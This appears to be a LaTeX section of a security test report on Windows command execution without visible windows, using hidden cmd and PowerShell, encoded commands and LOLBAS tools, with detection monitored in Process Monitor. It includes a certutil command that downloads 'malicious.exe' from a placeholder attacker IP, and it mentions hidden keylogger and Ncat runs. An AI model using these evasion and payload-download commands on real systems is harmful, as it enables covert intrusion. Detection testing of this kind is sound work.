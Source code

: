 \documentclass[11pt]{article}
\begin{document}
	\subsubsection{Technique 3: Non-Visual Command Execution and Process Hiding}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To execute commands (e.g., file manipulation, reconnaissance) using PowerShell and `cmd.exe` in a way that avoids visible windows and to test detection of these hidden operations.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item `cmd.exe` (via `start /min cmd /c` in `cmd\_commands.txt` [cite: 252, 253]).
			\item `powershell.exe` (e.g., `powershell -windowstyle hidden -command "Get-Process"`).
			\item Various LOLBAS (e.g., `certutil.exe` for downloading files, `reg.exe` for registry manipulation).
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure (Examples):}
		\begin{enumerate}
			\item \textbf{Hidden CMD execution:} The `cmd\_commands.txt` already uses `start /min cmd /c` for various tasks (keylogger execution, Ncat)[cite: 252, 253]. Additional commands for file creation/deletion were tested using this method.
			\begin{verbatim}
				start /min cmd /c "echo test > C:\Users\Public\hidden_file.txt"
			\end{verbatim}
			\item \textbf{Hidden PowerShell execution:}
			\begin{verbatim}
				powershell.exe -WindowStyle Hidden -Command "New-Item -Path C:\Users\Public\ps_hidden_file.txt -ItemType File"
				powershell.exe -WindowStyle Hidden -EncodedCommand <Base64_Encoded_Command>
			\end{verbatim}
			\item \textbf{LOLBAS for file download (Certutil):}
			\begin{verbatim}
				certutil.exe -urlcache -split -f http://<attacker_ip>/malicious.exe C:\Users\Public\downloaded.exe
			\end{verbatim}
			\item Process activity was monitored using Process Monitor and Task Manager (looking for brief appearances or child processes of legitimate services).

\end{enumerate}
\end{itemize}
\end{document}
